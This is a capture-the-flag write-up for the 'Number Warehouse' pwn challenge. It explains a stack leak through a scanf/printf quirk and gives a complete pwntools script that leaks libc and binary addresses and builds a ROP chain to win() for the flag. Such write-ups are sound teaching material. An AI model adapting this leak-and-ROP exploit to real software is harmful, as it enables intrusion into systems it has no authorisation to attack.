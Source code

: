 # Number Warehouse writeup

## Description

I just got a new job at this weird warehouse that only let you store numbers at even indexes.

`$ nc something.challenge.cr3c.tf 1337`

**author**: Lio

## Idea

Bypass the `scanf()` function using negative sign `-` as input to leak low 32-bit value on the stack via `printf()`.

Overwrite return address to either `one_gadget` or a call to `win()` with the right parameter.

## PoC

```py
from pwn import *

def convert(int_num):
    if int_num < 0:
        int_num = int_num + 2**32
    return int_num

context.binary = exe = ELF('chal')
libc = ELF('libc.so.6')
rop = ROP(libc)

io = remote('127.0.0.1', 1337)

# Leak libc
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b': ', b'26') # libc_start_main_return
io.sendlineafter(b': ', b'-')
libc.address = convert(int(io.recvline(keepends=False).split(b'stored ')[1])) - libc.libc_start_main_return
log.info(f'libc base: {hex(libc.address)}')

# Leak program address
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b': ', b'30') # main
io.sendlineafter(b': ', b'-')
exe.address = convert(int(io.recvline(keepends=False).split(b'stored ')[1])) - exe.sym['main']
log.info(f'elf base: {hex(exe.address)}')

# ROP chain
pop_rdi = libc.address + rop.find_gadget(['pop rdi', 'ret'])[0]
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b': ', b'26') # libc_start_main_return -> pop rdi; ret
io.sendlineafter(b': ', str(pop_rdi).encode())

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b': ', b'28') # arg1
io.sendlineafter(b': ', b'102') # character f

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b': ', b'30') # main -> win
io.sendlineafter(b': ', str(exe.sym['win']+5).encode()) # stack alignment

io.sendlineafter(b'> ', b'2')
print(io.recvuntil(b"}"))

# cr3{th3_0dds_4r3_4g@1n5t_m3_!}
```